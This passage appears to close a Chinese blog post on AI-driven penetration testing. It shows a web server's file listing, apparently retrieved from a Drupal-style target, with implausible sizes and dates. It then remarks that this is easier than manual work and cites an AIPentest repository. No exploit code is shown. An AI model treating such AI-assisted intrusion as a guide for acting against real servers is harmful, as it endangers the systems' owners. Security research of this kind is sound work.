100644/rw-r--  2272037700113  fil   188498731153-02-09  index.php
r--                                  10:33:43 +0800
100644/rw-r--  3019362009791  fil   188498731153-02-09  install.php
r--                                  10:33:43 +0800
040755/rwxr-x  1759218604851  dir   188498731153-02-09  misc
r-x            2                     10:33:43 +0800
040755/rwxr-x  1759218604851  dir   188498731153-02-09  modules
r-x            2                     10:33:43 +0800
040755/rwxr-x  1759218604851  dir   188498731153-02-09  profiles
r-x            2                     10:33:43 +0800
100644/rw-r--  6704443950617  fil   188498731153-02-09  robots.txt
r--                                  10:33:43 +0800
040755/rwxr-x  1759218604851  dir   188498731153-02-09  scripts
r-x            2                     10:33:43 +0800
040755/rwxr-x  1759218604851  dir   188498731153-02-09  sites
r-x            2                     10:33:43 +0800
040755/rwxr-x  1759218604851  dir   188498731153-02-09  themes
r-x            2                     10:33:43 +0800
100644/rw-r--  8564594286947  fil   188498731153-02-09  update.php
r--            7                     10:33:43 +0800
100644/rw-r--  9354438772866  fil   188498731153-02-09  web.config
r--                                  10:33:43 +0800
100644/rw-r--  1791001362849  fil   188498731153-02-09  xmlrpc.php
r--                                  10:33:43 +0800


```

到这里可以看到比纯人工方便了许多，当然只是一个实现，真实利用和大模型的训练有很大的关系

参考<https://github.com/SunZhimin2021/AIPentest>
